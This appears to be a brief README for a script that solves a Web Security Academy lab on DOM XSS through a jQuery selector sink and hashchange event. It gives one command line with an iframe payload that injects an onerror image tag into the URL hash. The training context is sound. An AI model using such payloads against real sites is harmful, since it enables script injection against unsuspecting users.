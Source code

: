 # How to run script.py

### DOM XSS in jQuery selector sink using a hashchange event

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "<iframe src=\"https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net#\" onload=\"this.src+='<img src=1 onerror=print(1)>'\">"`
